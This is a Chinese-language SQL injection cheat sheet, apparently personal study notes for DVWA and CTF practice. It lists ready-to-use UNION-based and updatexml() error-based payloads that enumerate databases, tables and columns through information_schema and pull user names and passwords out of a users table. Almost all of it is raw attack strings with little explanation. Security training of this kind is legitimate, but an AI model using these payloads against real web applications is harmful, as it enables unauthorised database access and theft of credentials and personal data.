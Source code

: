 # sql 注入速查手册

## 字符型、数字型注入

``` sql
字符型注入、数字型注入

database() 数据库名


—————— 表名

1' UNION SELECT 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; #

————如果limit 1 我们可以用 offset 1 偏移

1 UNION SELECT 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; #

select * from news where id=1234234 UNION SELECT 2,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; #  ———————— 可用，查出了所有表

select * from news where id=1234234 UNION SELECT 2,GROUP_CONCAT(table_name) FROM information_schema.tables; #

select * from news where id=1234234 UNION select database(),2

UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   #

SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';

UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

tablename: users | guestbook

UNION SELECT TABLE_NAME (是否加 ,1) FROM information_schema.tables WHERE TABLE_SCHEMA=database();

————union 特性注意  or 1=1 用途注意

test: UNION SELECT TABLE_NAME,1 FROM information_schema.tables WHERE TABLE_SCHEMA=database();  ---可用

—————— 列名

UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

id=1 UNION SELECT GROUP_CONCAT(column_name) ____注意union的参数数量 FROM information_schema.columns WHERE table_name = 'guestbook' #

1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #   ----- 进制转换后name这里都不需要引号吗

1' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #

0x6775657374626f6f6b

1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x6775657374626f6f6b #

—————— 数据


1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #

1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #

1 union select group_concat(flag),3 from flag#

参考一下：———— https://www.cnblogs.com/yaolingyu/p/17231624.html


常用sql注入词汇

information_schema

schemata(schema_name)

tables(table_schema,table_name)

columns(table_schema,table_name,column_name)

select schema_name from information_schema.schemata;

select table_name from information_schema.tables where table_schema='dvwa';

select column_name from information_schema.columns where table_name='users' and table_schema='dvwa';

select concat(username,password) from dvwa.users;


```

## 报错注入（以 updatexml（）为例）

> Floor 以及 extractvalue 函数的爆破请看 web 下的笔记

- 爆数据库名（灵活修改）

``` sql
select * from news where id=1 and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#
```

![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240720001616.png)

- 爆表名

``` sql
select * from news where id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #
```

![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240720001607.png)

- 爆字段

``` sql
select * from news where id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='flag'),0x7e),1) #  ———— 务必将dvwa修改成数据库名
```

> 错误爆破
![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240720001700.png)
> 正确爆破
![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240720001812.png)

- 爆数据（请将 concat 的参数修改，dvwa. Users 作为具体的表也需要修改）

``` sql
1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users)),1) #
```
